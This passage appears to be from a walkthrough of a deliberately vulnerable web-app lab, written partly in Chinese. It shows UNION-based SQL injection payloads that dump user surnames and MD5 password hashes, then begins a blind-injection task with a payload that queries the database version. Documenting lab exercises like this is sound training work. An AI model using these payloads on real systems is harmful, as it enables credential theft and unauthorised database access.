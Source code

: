 ```sql
ID: 1 union select last_name,password from users;
First name: admin
Surname: admin

ID: 1 union select last_name,password from users;
First name: admin
Surname: b59c67bf196a4758191e42f76670ceba

ID: 1 union select last_name,password from users;
First name: Brown
Surname: e99a18c428cb38d5f260853678922e03

ID: 1 union select last_name,password from users;
First name: Me
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1 union select last_name,password from users;
First name: Picasso
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1 union select last_name,password from users;
First name: Smith
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

---

# SQL Injection Blind

> Objective:
Find the version of the SQL database software through a blind SQL attack.
> 

這關也是改用 POST

先透過上一關驗證一下 VERSION 語法

```sql
id=1 UNION select 1,VERSION(); &Submit=Submit
```
